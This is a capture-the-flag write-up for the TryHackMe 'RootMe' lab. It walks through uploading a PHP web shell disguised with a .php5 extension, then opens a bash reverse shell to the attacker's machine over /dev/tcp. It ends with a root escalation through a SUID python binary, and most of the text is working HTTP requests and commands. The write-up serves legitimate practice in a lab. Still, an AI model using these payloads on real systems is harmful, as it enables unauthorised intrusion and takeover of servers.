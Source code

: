 ```yaml
---
title: RootMe
description: 'Uploading a malicious PHP script and privileges escalation through Python with SUID permissions'
pubDate: 2021-06-27
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png'
---
```


## RCE
Found `/panel/` by fuzzing


Upload a simple PHP RCE, with `.php5` extension to bypass a filter:

```
POST /panel/ HTTP/1.1
Host: 10.10.205.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4274716328538659251235427623
Content-Length: 387
Origin: http://10.10.205.210
Connection: close
Referer: http://10.10.205.210/panel/
Cookie: PHPSESSID=4e1q8lgpkem14g3gba3bo4ultg
Upgrade-Insecure-Requests: 1

-----------------------------4274716328538659251235427623
Content-Disposition: form-data; name="fileUpload"; filename="cmd.php5"
Content-Type: application/octet-stream

<?php system($_REQUEST['cmd']); ?>

-----------------------------4274716328538659251235427623
Content-Disposition: form-data; name="submit"

Upload
-----------------------------4274716328538659251235427623--
```

Execute `http://10.10.205.210/uploads/cmd.php5?cmd=id`
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## USER
Execute a bash reverse shell:

```
POST /uploads/cmd.php5 HTTP/1.1
Host: 10.10.205.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4e1q8lgpkem14g3gba3bo4ultg
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

cmd=bash+-c+"/bin/bash+-i+>%26+/dev/tcp/10.8.200.250/4444+0>%261"
```

```bash
find / -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```

## ROOT
Find all SUID file:

```bash
find . -perm /4000 2>/dev/null | grep -v "\/snap"

...[snip]...
./usr/bin/python
...[snip]...
```

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

This gives a root shell
